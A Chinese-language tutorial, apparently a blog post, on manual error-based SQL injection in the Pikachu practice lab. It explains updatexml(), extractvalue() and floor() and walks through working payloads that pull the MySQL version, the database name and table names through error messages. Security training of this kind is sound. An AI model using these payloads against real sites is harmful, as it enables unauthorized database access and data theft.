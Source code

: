 SQL Inject漏洞手工测试：基于报错的信息获取(select/delete/update/insert)
技巧思路：
在mysql中使用一些指定的函数来制造报错，从而从报错信息中获取设定的信息。
select/insert/update/delete都可以使用报错来获取信息。
背景条件：
后台没有屏蔽数据库报错信息，在语法发生错误时回输出在前端。

基于报错的信息获取————三个常用的用来报错的函数
updatexml():函数是MySQL对XML文档数据进行查询和修改的XPATH函数。
extractvalue():函数也是MySQL对XML文档数据进行查询和修改的XPATH函数。
floor():MYSQL中用来取整的函数。

updatexml()
updatexml()函数作用：改变（查找并替换）XML文档中符合条件的节点的值。
语法：UPDATEXML(xml document,XPathstring,new_value)

第一个参数: filedname是String格式，为表中的字段名。
第二个参数: XPathstring (Xpath格式的字符串)。
第三个参数: new. value，String格式，替换查找到的符合条件的

Xpath定位必须是有效的，否则会发生错误
select下报错的利用演示
我们还是那字符型注入做演示，首先我们应该判断有没有报错，会不会在前端显示。我们输入单引号，发现有注入报错。
![](https://img-blog.csdnimg.cn/7305529e750c42808b5416ad18ae2497.png)
现在我们构造一个报错。

kobe' and updatexml(1,version(),0)#
![](https://img-blog.csdnimg.cn/ac5259ea8591495cbbaabf83bfdf079a.png)
但是并没有把version对应的版本号打印出来， 接下来修改payload。

kobe' and updatexml(1,concat(0x7e,version()),0)#
![](https://img-blog.csdnimg.cn/214d6d3177b44e98a44fffee5385eb80.png)
我们获取到了版本号，现在我们可以把version替换成任意我们想要获取的信息。

kobe' and updatexml(1,concat(0x7e,database()),0)#
![]()
我们进一步查询数据库中的表

kobe' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='pikachu')),0)#
![]()
报错返回的数据多余一行。说明报错有多行。再次进行处理。可以使用limit一次一次进行获取表名。

kobe' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='pikachu' limit 0,1)),0)#
![]()我们可以得到第一个表名。想要得到第二个表名只要把0改成1即可。依此类推，可以得到所有表名。

kobe' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='pikachu' limit 1,1)),0)#
![]()
在获取表名之后，思路一样，获取列名。

